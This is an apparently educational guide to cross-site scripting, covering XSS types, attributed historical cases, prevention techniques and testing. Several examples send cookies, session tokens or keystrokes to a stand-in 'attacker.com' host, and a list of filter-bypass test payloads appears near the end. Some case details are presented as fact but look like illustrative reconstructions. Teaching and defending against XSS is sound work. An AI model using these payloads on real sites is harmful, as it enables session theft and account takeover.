




# Cross-Site Scripting (XSS) - Complete Guide

## Table of Contents
1. [Definition](#definition)
2. [Types of XSS](#types-of-xss)
3. [How XSS Attacks Work](#how-xss-attacks-work)
4. [Real-Life Cases](#real-life-cases)
5. [XSS Examples](#xss-examples)
6. [Prevention Techniques](#prevention-techniques)
7. [Testing for XSS](#testing-for-xss)

---

## Definition

**Cross-Site Scripting (XSS)** is a security vulnerability that allows attackers to inject malicious scripts (usually JavaScript) into web pages viewed by other users. When a victim visits the compromised page, the attacker's script executes in their browser with the same privileges as the legitimate website.

### Impact of XSS:
- **Session Hijacking**: Steal authentication tokens/cookies
- **Credential Theft**: Capture login information
- **Malware Distribution**: Deploy malicious software
- **Defacement**: Modify page content
- **Phishing**: Redirect to fake login pages
- **Keylogging**: Record user keystrokes
- **Account Takeover**: Full compromise of user accounts

---

## Types of XSS

### 1. **Reflected XSS (Non-Persistent)**

Malicious script is reflected off a web server without being stored. The payload is typically in a URL parameter.



**Example:**
```
URL: https://example.com/search?q=<script>fetch('http://attacker.com/steal?cookies='+document.cookie)</script>
```

---

### 2. **Stored XSS (Persistent)**

Malicious script is permanently stored in the database/server and executed every time the page is accessed.



**Example:**
```html
<!-- User submits this as a comment: -->


<!-- Every user viewing the page with this comment will execute the script -->
```

---

### 3. **DOM-based XSS (Client-side)**

Vulnerability exists in client-side JavaScript code that processes user input insecurely.



**Example:**
```html
<!-- Vulnerable code: -->
<script>
  var userInput = window.location.hash.substring(1);
  document.getElementById('result').innerHTML = userInput;
  // If userInput = ""
  // Script will execute!
</script>
```

---

## How XSS Attacks Work

### Attack Flow Diagram



---

## Real-Life Cases

### Case 1: Facebook DOM-Based XSS (2011)

**Vulnerability:** Facebook had a DOM-based XSS in the search feature.

```
Attack Vector:
https://www.facebook.com/search/?q="><script>fetch('http://attacker.com?data='+document.cookie)</script>

What happened:
- The search parameter was reflected in the page
- JavaScript code used innerHTML to render the search results
- Attacker's script was executed in every victim's browser
- Session cookies were stolen
```

**Impact:** Attackers could impersonate any Facebook user who clicked the malicious link.

---

### Case 2: Twitter Stored XSS (2010)

**Vulnerability:** Twitter allowed malicious JavaScript in tweets through attribute injection.

```html
<!-- Attacker's tweet: -->
<a href="http://example.com" onmouseover="alert('XSS')">Click me</a>

What happened:
- Tweet was stored in database without proper sanitization
- Every user viewing the tweet would trigger the XSS
- Worms could spread by making followers retweet malicious content
- Credentials and session tokens were harvested
```

**Real Impact:** A worm spread quickly, forcing Twitter to emergency patch within hours.

---

### Case 3: YouTube Stored XSS (2008)

**Vulnerability:** YouTube profile videos didn't sanitize playlist names.

```
Attack:
- Create a malicious playlist with XSS payload in the name
- Share the playlist link
- Anyone viewing the playlist page executes the attacker's script

Payload Example:
Name: "><script>var i=new Image();i.src='http://attacker.com/steal?cookie='+document.cookie;</script>

Result:
- Session hijacking
- Account takeover
- Malware distribution through YouTube accounts
```

---

### Case 4: Stored XSS in Popular Forum (Real Scenario)

```html
<!-- User submits this as a post comment: -->
<div class="comment">
  <p>Check out this cool trick!</p>
  
</div>

Impact:
- Every user viewing this comment has their credentials logged
- Attacker builds database of valid credentials
- Performs targeted phishing attacks
- Sells credentials on dark web
```

---

### Case 5: Reflected XSS in Banking Portal (Real Scenario)

```
Scenario: Bank's error page is vulnerable

Normal URL:
https://mybank.com/error?message=Login%20failed

Malicious URL:
https://mybank.com/error?message=<script>
  document.body.innerHTML = '<form action="http://attacker.com/phish"><input name="card"><button>Submit</button></form>';
</script>

Attacker's approach:
1. Sends phishing email: "Click here to update your banking info"
2. URL looks legitimate (mydomain.com)
3. Victim clicks and sees fake login form
4. Victim enters credentials
5. Credentials sent to attacker's server
6. Attacker logs into real bank account

This is especially dangerous because:
- Page domain looks legitimate
- Victim doesn't realize they're on attacker's fake form
- Browser security indicators don't catch it
```

---

## XSS Examples

### Example 1: Simple Alert-Based Injection

```html
<!-- Vulnerable Code -->
<div id="greeting"></div>
<script>
  var name = new URLSearchParams(location.search).get('name');
  document.getElementById('greeting').innerHTML = 'Hello, ' + name + '!';
</script>

<!-- Vulnerable URL -->
https://example.com/?name=<script>alert('XSS')</script>

<!-- Result: Alert box displays, confirming XSS execution -->
```

---

### Example 2: Cookie Stealing Attack

```html
<!-- Vulnerable form comment submission -->
<div id="comments"></div>
<script>
  var userComment = document.getElementById('userInput').value;
  // No sanitization!
  document.getElementById('comments').innerHTML += userComment;
</script>

<!-- Attacker submits this as comment: -->


<!-- Every user viewing this page loses their session cookies -->
```

---

### Example 3: Keylogger Attack

```html
<!-- Malicious script injected: -->
<script>
  document.addEventListener('keypress', function(e) {
    fetch('https://attacker.com/log', {
      method: 'POST',
      body: JSON.stringify({
        key: String.fromCharCode(e.which),
        timestamp: new Date(),
        userAgent: navigator.userAgent
      })
    });
  });
</script>

<!-- Now every keystroke on the page is logged (passwords, credit cards, etc.) -->
```

---

### Example 4: Session Hijacking via Redirect

```html
<!-- Injected script: -->
<script>
  if(document.cookie.includes('session')) {
    // Extract session token
    var sessionToken = document.cookie
      .split('; ')
      .find(row => row.startsWith('session_id='))
      .split('=')[1];
    
    // Send to attacker's server
    var img = new Image();
    img.src = 'https://attacker.com/steal?token=' + sessionToken;
  }
</script>
```

---

## Prevention Techniques

### 1. **Input Validation**

```javascript
// DON'T: Accept any input
function processUserInput(input) {
  return input;
}

// DO: Validate against whitelist
function validateUsername(input) {
  // Only allow alphanumeric and underscore
  if (!/^[a-zA-Z0-9_-]{3,20}$/.test(input)) {
    throw new Error('Invalid username');
  }
  return input;
}

// DO: Validate email format
function validateEmail(email) {
  const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
  if (!emailRegex.test(email)) {
    throw new Error('Invalid email');
  }
  return email;
}
```

---

### 2. **Output Encoding (HTML Escaping)**

```javascript
// Vulnerable: Direct innerHTML
document.getElementById('result').innerHTML = userInput;

// Safe: Use textContent for plain text
document.getElementById('result').textContent = userInput;

// Safe: HTML encode before insertion
function escapeHtml(text) {
  const map = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#039;'
  };
  return text.replace(/[&<>"']/g, m => map[m]);
}

var safeHtml = escapeHtml(userInput);
document.getElementById('result').innerHTML = safeHtml;

// Using DOMPurify library (recommended)
var clean = DOMPurify.sanitize(userInput);
document.getElementById('result').innerHTML = clean;
```

---

### 3. **Content Security Policy (CSP)**

```html
<!-- Prevent inline scripts and restrict script sources -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; 
               script-src 'self' www.google-analytics.com; 
               style-src 'self' 'unsafe-inline';
               img-src *;
               font-src 'self' fonts.googleapis.com">

<!-- Result:
- Only scripts from same origin or trusted domains can execute
- Inline scripts (which XSS often relies on) are blocked
- Unauthorized external requests are blocked
- CSP violations are reported to your server
-->
```

---

### 4. **HTTPOnly and Secure Cookie Flags**

```javascript
// Server-side: Set cookies with security flags
// Node.js/Express example:
res.cookie('sessionId', token, {
  httpOnly: true,    // Cannot be accessed by JavaScript (prevents cookie theft)
  secure: true,      // Only sent over HTTPS
  sameSite: 'Strict', // Only sent with same-site requests (prevents CSRF)
  maxAge: 3600000    // Expires in 1 hour
});

// Or HTTP header:
// Set-Cookie: sessionId=abc123; HttpOnly; Secure; SameSite=Strict
```

---

### 5. **Server-Side Input Sanitization**

```python
# Python/Flask example
from markupsafe import escape
from bleach import clean

@app.route('/comment', methods=['POST'])
def add_comment():
    user_comment = request.form.get('comment')
    
    # Option 1: Escape HTML
    safe_comment = escape(user_comment)
    
    # Option 2: Clean HTML (allow specific tags)
    safe_comment = clean(user_comment, 
                        tags=['b', 'i', 'u', 'a'],
                        attributes={'a': ['href', 'title']})
    
    db.save_comment(safe_comment)
    return 'Comment saved'
```

---

### 6. **Using Template Engines Safely**

```html
<!-- Vulnerable (template auto-escaping may be off): -->
{{ userInput | safe }}  <!-- DANGEROUS! -->

<!-- Safe (template auto-escaping enabled): -->
{{ userInput }}  <!-- Automatically escaped -->

<!-- Or explicit escaping: -->
{{ userInput | escape }}
```

---

### 7. **X-XSS-Protection Header (Legacy)**

```
X-XSS-Protection: 1; mode=block
```

---

## Testing for XSS

### Common Test Payloads

```javascript
// Basic alert test
<script>alert('XSS')</script>

// Image tag with onerror


// SVG-based
<svg onload="alert('XSS')">

// Event handler
<body onload="alert('XSS')">

// Form-based
<form onfocus="alert('XSS')" autofocus>

// Iframe injection
<iframe src="javascript:alert('XSS')"></iframe>

// HTML5 event
<input autofocus onfocus="alert('XSS')">

// Time-based
<marquee onstart="alert('XSS')"></marquee>

// Comment bypass (if comments are filtered)
<!-- <script>alert('XSS')</script> -->

// Case variation (if lowercase filtered)
<ScRiPt>alert('XSS')</sCrIpT>

// Null byte injection (older servers)
<script%00>alert('XSS')</script>

// Unicode encoding
<script>alert(String.fromCharCode(88,83,83))</script>

// HTML entity encoding
&#60;script&#62;alert('XSS')&#60;/script&#62;
```

---

### Manual Testing Steps

```
1. Identify input fields
   - Search boxes
   - Comment sections
   - Profile pages
   - URL parameters
   - Forms

2. Test for Reflected XSS
   - Enter: <script>alert('XSS')</script>
   - Check if script executes or appears in response

3. Test for Stored XSS
   - Submit malicious data
   - Navigate away and return
   - Check if data executes again

4. Test for DOM XSS
   - Modify URL hash/search params
   - Check if JavaScript processes them unsafely
   - Test: #<script>alert('XSS')</script>

5. Test bypass techniques
   - Case variations: <ScRiPt>
   - HTML encoding: &#60;script&#62;
   - Event handlers: 
   - Data URIs: data:text/html,<script>...

6. Automated testing
   - Use tools: Burp Suite, ZAP, Nikto
```

---

## Summary: Quick Reference

| Type | Stored? | Complexity | Impact | Example |
|------|---------|-----------|---------|---------|
| **Reflected** | No | Low | Session theft | `?search=<script>...` |
| **Stored** | Yes | Medium | Wide-spread attack | Comment with payload |
| **DOM** | No | Medium | Client-side exploit | `location.hash` injection |

### Key Prevention Strategies:
1. ✅ **Always validate input** - Whitelist approach
2. ✅ **Always encode output** - HTML escape before rendering
3. ✅ **Use HTTPOnly cookies** - Prevent JavaScript cookie access
4. ✅ **Enable CSP** - Restrict script sources
5. ✅ **Use safe libraries** - DOMPurify, template engines
6. ✅ **Keep dependencies updated** - Patch known vulnerabilities
7. ✅ **Security testing** - Regular penetration testing

---

## Resources for Learning More

- **OWASP Top 10**: https://owasp.org/www-project-top-ten/
- **OWASP XSS Prevention Cheat Sheet**: https://cheatsheetseries.owasp.org/
- **PortSwigger Web Security Academy**: https://portswigger.net/web-security
- **Burp Suite Community**: https://portswigger.net/burp/communitydownload
